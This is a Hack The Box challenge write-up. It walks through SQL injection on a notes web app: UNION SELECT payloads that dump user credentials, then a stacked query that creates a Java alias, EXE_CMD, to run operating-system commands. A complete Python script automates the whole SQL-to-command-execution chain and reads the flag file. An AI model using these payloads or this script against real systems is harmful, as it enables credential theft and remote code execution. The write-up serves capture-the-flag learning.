 # Pentest Notes - HTB Challenge Writeup
## Reconnaissance / Information Gathering
We start the challenge and we are given a host to connect to via our web browser:

![image](https://github.com/user-attachments/assets/750a1efb-e01d-4103-9499-06cff3ee7338)


Upon going to the host, we are greeted with a login page to login or register:

![image](https://github.com/user-attachments/assets/9eaf1770-cc4e-41f6-9aab-e4d110bdab5a)


Creating an account, we can see a checklist called 'PENTEST CHECKLIST':

![image](https://github.com/user-attachments/assets/46a8fddb-6442-4dbe-871f-354d1d65fec0)


Clicking on the SQL Injection note, we see a comment that says `One ' to rule them all`. This hints at SQLi, so we start probing the website and messing with the URL with a `'` to test for SQLi.

---

## Exploitation: SQLi
After adding our payload to the end of the URL, we can find some output when we use 3 `NULL`s, which indicates the notes have 3 columns.

We also determine that the first column is not a string, but the second and third (Name and Note) columns are strings. We can determine this by replacing `NULL` with `a` for the `NULL` value:

![image](https://github.com/user-attachments/assets/c7464a66-e31b-465c-a46f-152785af0881)


We list all the databases with: `' UNION SELECT NULL, schema_name, NULL FROM information_schema.schemata--`

![image](https://github.com/user-attachments/assets/590c7390-a3cf-4437-ab1f-07374045c663)


We have 2 databases: 
1. INFORMATION_SCHEMA
2. PUBLIC

We query the `INFORMATION_SCHEMA` database to list all the tables, and see a table called `USERS`. We query the table to see all the columns, then get all the users usernames and passwords in the table:

![image](https://github.com/user-attachments/assets/e6d86a95-f4a5-43a1-a1e6-c0f77ffa8145)


If we login as `user` with password `123`, we just get to the same page with the same PENTEST CHECKLIST.

I continued to search through all the tables, but couldn't find anything useful. I decided to capture requests in Burp Suite to see what I could find through there.

We capture a request in Burp Suite when re-loading the page to find a POST request being sent to /api/note:

![image](https://github.com/user-attachments/assets/f0c26518-e350-48fe-ad89-8b5d08e4e7cb)


Here we find we can also submit the SQL injection through the name of the request (after `SQL Injection`):

![image](https://github.com/user-attachments/assets/94208c11-dbf6-41e0-b62c-3b0b75327a81)


Since we already went through all the tables and couldn't find anything, we can try to get command injection through the following payload:

![image](https://github.com/user-attachments/assets/534d0db0-9a4e-4402-8ca5-ee682955e4ad)


This command does the following:
- Ends the current SQL command.
- Creates a Java-based SQL function named `EXE_CMD` that can run any system command.
- Comments out the rest of the original SQL query to avoid syntax errors.

Now we can execute commands with the following payload:

![image](https://github.com/user-attachments/assets/fab3fdc3-ea6e-45c7-b2b4-a1085adacd37)


We traverse through the file system and find a file that contains the flag:

![image](https://github.com/user-attachments/assets/ae18d49b-995b-423e-bb4e-6f664be874af)


# Automation with Python
Script created to automate the challenge:
```python
import requests  # Used to make HTTP requests (GET, POST, etc.)
import re        # Used for regular expressions to search for patterns (e.g., the flag format)

# Base target URL (replace with the current HTB instance IP:PORT)
base_url = 'http://83.136.248.49:52176'

# Create a persistent session object to retain cookies and headers across requests
session = requests.Session()

# Step 1: LOGIN TO THE APPLICATION
# Construct the full login endpoint
login_url = f'{base_url}/login'

# Provide default credentials to log in
login_data = {
    'username': 'user',
    'password': '123'
}

# Set HTTP headers to mimic a normal browser request
login_headers = {
    'Content-Type': 'application/x-www-form-urlencoded',  # Form submission format
    'Origin': base_url,  # Helps prevent CSRF on some servers
    'Referer': f'{base_url}/login',  # Shows the source page of the request
    'User-Agent': 'Mozilla/5.0'  # Mimics a real browser to avoid being blocked
}

# Send POST request to login with the above data and headers
response = session.post(login_url, data=login_data, headers=login_headers)

# Check if session cookie (JSESSIONID) is set, which indicates a successful login
if 'JSESSIONID' not in session.cookies.get_dict():
    print("Login failed or session not set properly.")
    exit(1)  # Exit the script if login fails

print("Logged in successfully.")

# Step 2: CREATE A MALICIOUS SQL ALIAS 
# Payload to inject SQL that defines a new Java alias 'EXE_CMD' for executing system commands
alias_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection'; CREATE ALIAS EXE_CMD AS 'String exec(String cmd) throws Exception { "
    "Process p = Runtime.getRuntime().exec(cmd); java.util.Scanner s = new java.util.Scanner(p.getInputStream()).useDelimiter(\"\\\\A\"); "
    "return s.hasNext() ? s.next() : \"\";}' --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Headers for sending multipart/form-data (needed for file/form uploads)
alias_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Endpoint to create a note, which is being abused here for SQL injection
alias_url = f'{base_url}/api/note'

# Send malicious payload to the vulnerable endpoint to create the alias
response = session.post(alias_url, data=alias_payload, headers=alias_headers)
print("Alias payload sent.")

# Step 3: USE THE ALIAS TO EXECUTE A SYSTEM COMMAND
# This payload injects a UNION-based SQL query to call the EXE_CMD alias and read the flag file
exploit_payload = (
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS\r\n"
    "Content-Disposition: form-data; name=\"name\"\r\n\r\n"
    "SQL Injection' union select NULL,NULL,EXE_CMD('cat flag.txt') --\r\n"
    "------WebKitFormBoundaryPfGWWNBRSLYgbcBS--\r\n"
)

# Use same headers as above since we're still submitting multipart form data
exploit_headers = {
    'Content-Type': 'multipart/form-data; boundary=----WebKitFormBoundaryPfGWWNBRSLYgbcBS',
    'Origin': base_url,
    'Referer': f'{base_url}/note?name=SQL%20Injection',
    'User-Agent': 'Mozilla/5.0'
}

# Reuse the same endpoint to now exploit the alias and read the file
response = session.post(alias_url, data=exploit_payload, headers=exploit_headers)

# Step 4: SEARCH THE RESPONSE FOR THE FLAG
# Look for a flag matching HTB{...} format using regex
flag_match = re.search(r'HTB\{.*?\}', response.text)

# If found, print it; otherwise, show a failure message
if flag_match:
    print(f"Flag found: {flag_match.group(0)}")
else:
    print("Flag not found.")
```
- Logs into the target site and keeps the session alive using `requests.Session()`
- Submits a payload to create a Java alias function to execute OS commands
- Sends a second payload to trigger the alias and read the flag file
- Extracts and prints the flag

Result:
![[Pasted image 20250505103827.png]]
